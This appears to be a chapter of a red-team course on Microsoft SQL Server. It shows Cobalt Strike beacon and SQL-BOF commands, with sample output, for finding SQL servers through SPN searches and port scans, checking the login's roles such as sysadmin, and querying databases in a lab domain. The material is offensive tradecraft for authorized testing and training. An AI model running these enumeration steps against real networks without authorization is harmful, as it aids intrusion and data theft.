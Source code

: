 # Microsoft SQL Server

MS SQL (Structured Query Language) Server is Microsoft's proprietary relational database management system.

Popular tools to interact with MS SQL servers include [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL), [SQLRecon](https://github.com/skahwah/SQLRecon), [SQL-BOF](https://github.com/Tw1sm/SQL-BOF), [sqlcmd](https://github.com/microsoft/go-sqlcmd), [HeidiSQL](https://www.heidisql.com/), and [SSMS](https://learn.microsoft.com/en-us/ssms/download-sql-server-management-studio-ssms).  This chapter will exclusively demonstrate SQL-BOF, but you can use any tool you prefer.

### Enumeration <a href="#el_1743877027136_441" id="el_1743877027136_441"></a>

#### SPNs <a href="#el_1743876735183_343" id="el_1743876735183_343"></a>

One way to enumerate SQL server instances is to query for the SPNs that are used to support Kerberos authentication.  This will give you the hostname of the SQL servers and the service accounts that are used to run them

```batch
beacon> ldapsearch (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*)) --attributes name,samAccountName,servicePrincipalName

Binding to 10.10.120.1

[*] Distinguished name: DC=contoso,DC=com
[*] targeting DC: \\lon-dc-1.contoso.com
[*] Filter: (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*))
[*] Scope of search value: 3
[*] Returning specific attribute(s): name,samAccountName,servicePrincipalName

--------------------
name: MSSQL Service
sAMAccountName: mssql_svc
servicePrincipalName: MSSQLSvc/lon-db-1.contoso.com:1433, MSSQLSvc/lon-db-1.contoso.com

retreived 1 results total

```

#### Port scanner <a href="#el_1743877019681_419" id="el_1743877019681_419"></a>

If they haven't been configured to support Kerberos authentication, then scanning for open ports [known](https://learn.microsoft.com/en-us/sql/sql-server/install/configure-the-windows-firewall-to-allow-sql-server-access) to be used by MS SQL server may be a suitable alternative.

```batch
beacon> portscan 10.10.120.0/23 1433 arp 1024

10.10.120.20:1433

Scanner module is complete
```

### SQL server info <a href="#el_1743877421073_569" id="el_1743877421073_569"></a>

The information you can collect about a SQL instance depends on the role(s) you have on that instance.  If the _SQLBrowser_ service is running (1434/UDP), then you can collect very minimal information about the server name, instance, and version.  This can be collected without having any role on the SQL instance.

```batch
beacon> sql-1434udp 10.10.120.20

SQL Server Connection Info:

ZServerName;LON-DB-1;InstanceName;MSSQLSERVER;IsClustered;No;Version;16.0.1000.6;tcp;1433;;// Some code
```

If a user does not have at least the [_public_ role](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/server-level-roles), then no further interaction is viable.  With the public role, we can collect a bit more information such as the SQL server process's PID.

```batch
beacon> sql-info lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Extracting SQL server information
 |--> ComputerName            : lon-db-1
 |--> DomainName              : CONTOSO
 |--> ServicePid              : 3364
 |--> ServiceName             : MSSQLSERVER
 |--> ServiceAccount          : CONTOSO\mssql_svc
 |--> AuthenticationMode      : Windows and SQL Server Authentication
 |--> ForcedEncryption        : 0
 |--> Clustered               : No
 |--> SqlServerVersionNumber  : 16.0.1000.6
 |--> SqlServerMajorVersion   : 2022
 |--> SqlServerEdition        : Standard Edition (64-bit)
 |--> SqlServerServicePack    : RTM
 |--> OsArchitecture          : X64
 |--> OsMachineType           : ServerNT
 |--> OsVersion               : Windows Server 2022 Standard
 |--> OsVersionNumber         : 2022
 |--> CurrentLogin            : CONTOSO\rsteel
 |--> IsSysAdmin              : True
 |--> ActiveSessions          : 1

[*] Disconnecting from server
```

You can query for information about the current user's rights on the SQL instance, which is useful for seeing all the roles and permissions that you have available.  Roles such as _serveradmin_, _securityadmin_, and _sysadmin_ are of particular interest.

```batch
beacon> sql-whoami lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Determining user permissions on lon-db-1
[*] Logged in as CONTOSO\rsteel
[*] Mapped to the user dbo
[*] Gathering roles...
 |--> User is a member of the public role
 |--> User is a member of the db_owner role
 |--> User is a member of the db_accessadmin role
 |--> User is a member of the db_securityadmin role
 |--> User is a member of the db_ddladmin role
 |--> User is a member of the db_backupoperator role
 |--> User is a member of the db_datareader role
 |--> User is a member of the db_datawriter role
 |--> User is NOT a member of the db_denydatareader role
 |--> User is NOT a member of the db_denydatawriter role
 |--> User is a member of the sysadmin role
 |--> User is a member of the setupadmin role
 |--> User is a member of the serveradmin role
 |--> User is a member of the securityadmin role
 |--> User is a member of the processadmin role
 |--> User is a member of the diskadmin role
 |--> User is a member of the dbcreator role
 |--> User is a member of the bulkadmin role

[*] Disconnecting from server
```

### Querying <a href="#el_1743880372616_831" id="el_1743880372616_831"></a>

The public role will also grant permission to query the database instance, which is useful for data-hunting.

```batch
beacon> sql-query lon-db-1 "SELECT @@SERVERNAME"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-1

 | 
---
lon-db-1 | 

[*] Disconnecting from server
```

SQL-BOF provides specific commands to list databases, tables, and rows of interest.

* `sql-databases` - list the available databases.
* `sql-tables` - list the tables in a given database.
* `sql-columns` - list the columns in a given table.
* `sql-search` - search for columns in the given database that contain a keyword.
